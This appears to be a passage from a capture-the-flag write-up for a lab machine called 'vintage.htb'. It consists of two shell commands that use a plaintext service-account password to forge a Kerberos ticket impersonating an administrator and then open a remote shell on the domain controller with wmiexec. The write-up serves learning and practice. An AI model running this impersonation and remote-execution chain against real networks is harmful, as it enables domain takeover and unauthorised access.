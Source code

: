 {% code overflow="wrap" %}
```bash
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne' 2>/dev/mull

KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache wmiexec.py dc01.vintage.htb -k -no-pass
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2757_vmware_C4O6dGBMBq.png" alt=""><figcaption></figcaption></figure>
